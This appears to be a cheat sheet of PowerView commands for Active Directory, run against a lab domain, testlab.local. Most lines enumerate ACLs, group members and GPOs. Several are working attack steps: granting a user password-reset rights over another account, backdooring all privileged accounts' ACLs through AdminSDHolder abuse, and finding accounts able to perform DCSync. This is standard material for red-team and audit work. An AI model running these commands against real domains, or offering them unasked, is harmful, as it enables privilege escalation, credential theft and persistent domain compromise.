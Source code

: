 # enumerate who has rights to the 'matt' user in 'testlab.local', resolving rights GUIDs to names
```
Get-DomainObjectAcl -Identity matt -ResolveGUIDs -Domain testlab.local
```
# grant user 'will' the rights to change 'matt's password
```
Add-DomainObjectAcl -TargetIdentity matt -PrincipalIdentity will -Rights ResetPassword -Verbose
```
# audit the permissions of AdminSDHolder, resolving GUIDs
```
Get-DomainObjectAcl -SearchBase 'CN=AdminSDHolder,CN=System,DC=testlab,DC=local' -ResolveGUIDs
```
# backdoor the ACLs of all privileged accounts with the 'matt' account through AdminSDHolder abuse
```
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=testlab,DC=local' -PrincipalIdentity matt -Rights All
```
# retrieve *most* users who can perform DC replication for dev.testlab.local (i.e. DCsync)
```
Get-DomainObjectAcl "dc=dev,dc=testlab,dc=local" -ResolveGUIDs | ? {
    ($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')
}
```
# find linked DA accounts using name correlation
```
Get-DomainGroupMember 'Domain Admins' | %{Get-DomainUser $_.membername -LDAPFilter '(displayname=*)'} | %{$a=$_.displayname.split(' ')[0..1] -join ' '; Get-DomainUser -LDAPFilter "(displayname=*$a*)" -Properties displayname,samaccountname}
```
# save a PowerView object to disk for later usage
```
Get-DomainUser | Export-Clixml user.xml
$Users = Import-Clixml user.xml
```
# Find any machine accounts in privileged groups
```
Get-DomainGroup -AdminCount | Get-DomainGroupMember -Recurse | ?{$_.MemberName -like '*$'}
```
# Enumerate permissions for GPOs where users with RIDs of > -1000 have some kind of modification/control rights
```
Get-DomainObjectAcl -LDAPFilter '(objectCategory=groupPolicyContainer)' | ? { ($_.SecurityIdentifier -match '^S-1-5-.*-[1-9]\d{3,}$') -and ($_.ActiveDirectoryRights -match 'WriteProperty|GenericAll|GenericWrite|WriteDacl|WriteOwner')}
```
# find all policies applied to a current machine
```
Get-DomainGPO -ComputerIdentity windows1.testlab.local
```